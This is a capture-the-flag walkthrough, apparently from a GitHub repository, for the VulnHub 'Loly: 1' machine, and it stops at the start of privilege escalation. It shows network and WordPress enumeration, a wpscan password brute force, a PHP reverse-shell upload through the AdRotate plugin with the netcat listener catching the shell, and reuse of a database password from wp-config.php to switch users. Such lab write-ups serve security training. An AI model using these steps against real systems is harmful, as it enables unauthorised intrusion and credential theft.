 ![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/bfeaf4da-2536-4bb4-9a13-9810436e2aff)# Loly: 1

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l   
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.135	00:0c:29:0f:25:d7	VMware, Inc.
192.168.127.254	00:50:56:ea:34:a1	VMware, Inc.
```

The ip address is `192.168.127.135`, let's enumerate it

### 2.Enumeration

```bash
root@kali: -sT -sV -sC -p- -oN nmap.out 192.168.127.135
Nmap scan report for 192.168.127.135
Host is up (0.00036s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
MAC Address: 00:0C:29:0F:25:D7 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

so we just need to check port 80, using nikto it reveals that the site has wordpress CMS :

```bash
root@kali: nikto -h 192.168.127.135
+ /wordpress/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version.
+ /wordpress/wp-links-opml.php: This WordPress script reveals the installed version.
+ /wordpress/wp-admin/: Uncommon header 'x-redirect-by' found, with contents: WordPress.
+ /wordpress/: Drupal Link header found with value: <http://loly.lc/wordpress/index.php?rest_route=/>; rel="https://api.w.org/". See: https://www.drupal.org/
+ /wordpress/: A Wordpress installation was found.
+ /wordpress/wp-login.php?action=register: Cookie wordpress_test_cookie created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
+ /wordpress/wp-login.php: Wordpress login found.
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ /wordpress/#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2024-05-06 04:35:09 (GMT-4) (18 seconds)
```

we need to scan the wordpress site using `wpscan` :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f4a42583-023c-4d66-ac55-9243f6b5c983)

yes we found a user, let's brute force this user :

```bash
root@kali: wpscan --url http://192.168.127.135/wordpress/ -e u,ap -U users.txt -P /usr/share/wordlists/rockyou.txt
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1d1936e5-c66d-4d86-8f3b-542c210f700a)


now we have valid credentials, `loly:fernando`, we can login to wodpress site, but when you want to go to `wp-admin.php` it redirects you to `loly.lc`

so add server ip to `/etc/hosts` and login to wordpress.

### 3.Gaining Shell

Since we do not have access to edit theme pages or upload plugin to wordpress, we used already installed plugins to find any vulnerability

one plugin `AdRotate` is installed on the wordpress and it has vulnerability which you can find online like [here](https://github.com/jephk9/oscp-jewels/blob/main/services/wordpress-plugin-exploits.md)

and it says we can upload a php rev shell into banner, so make a revshell.php file and zip it and upload it to wordpress from here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/35ac68ee-692d-4193-902d-c4fc44646215)

and in the setting you can find where this banner goes :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2e58fb7a-da58-4485-bfb7-ebda9db0b606)

so navigate to the address and you will get the shell

```bash
┌root@kali: nc -nvlp 4444                
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.135] 45688
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 04:40:06 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4.Privilege Escalation

Check `wp-config.php` file to find the database password :

```bash
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
```

when i connect to mysql there is no new user in `wp_users` table, but the password `lolyisabeautifulgirl` can be used to change user to loly :

```bash
www-data@ubuntu:~/html/wordpress$ su loly
Password: 
loly@ubuntu:/var/www/html/wordpress$ cd /home
```

then i enumerated afew things that led to nothing, but a kernel exploit can be used :

```bash
loly@ubuntu: uname -a
```









